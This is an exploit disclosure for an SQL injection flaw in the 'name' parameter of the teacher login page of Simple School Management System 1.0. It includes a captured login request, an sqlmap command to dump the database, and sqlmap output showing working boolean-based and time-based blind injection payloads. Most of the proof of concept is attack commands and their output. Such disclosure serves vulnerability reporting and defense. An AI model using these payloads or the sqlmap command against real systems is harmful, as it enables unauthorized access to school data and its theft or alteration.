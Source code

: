 # Simple School Managment System - SQL Injection - 6 (Teacher Login)
+ **Exploit Title:** Simple School Managment System - SQL Injection - 6 (Teacher Login)
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'name' parameter at "http://localhost/School/teacher_login.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/teacher_login.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /School/teacher_login.php HTTP/1.1
Host: localhost
Content-Length: 28
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/teacher_login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: close

name=selam&pass=selam&login=

```

+ Use sqlmap to exploit. In sqlmap, use 'name' parameter to dump the database.
```
sqlmap -r r.txt -p name --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: name=selam' OR NOT 5543=5543-- ooCP&pass=selam&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=selam' AND (SELECT 5519 FROM (SELECT(SLEEP(5)))CigC)-- ijan&pass=selam&login=
---
[06:47:34] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[06:47:34] [INFO] fetching current database
[06:47:34] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[06:47:34] [INFO] retrieved: school
current database: 'school'


```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 145416](https://github.com/tubakvgc/CVEs/assets/74067343/78b5990d-0f0a-4f0e-9d1b-ddadfd318674)


